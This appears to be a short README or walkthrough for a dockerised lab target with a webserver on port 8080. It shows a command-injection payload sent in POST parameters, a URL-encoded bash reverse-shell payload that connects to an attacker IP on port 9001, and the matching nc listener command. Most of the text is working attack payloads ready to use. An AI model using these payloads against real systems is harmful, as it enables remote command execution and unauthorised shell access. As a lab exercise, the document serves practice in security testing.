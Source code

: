 ## Getting started

```
$ docker compose up
```

## Evaluation

The host has a webserver open on 8080.

## Website

We can execute commands with the following POST parameters to index.

```
number=124|echo $(id)&format=hex
```

We can use this to get a reverse shell like this (replace 172.17.0.1 with your IP):
```
number=10%20%7Cbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F9001%200%3E%261%27%3Becho%20A&format=hex
```

Before making the request, listen for a reverse shell

```
$ nc -lnvp 9001 # on host
```

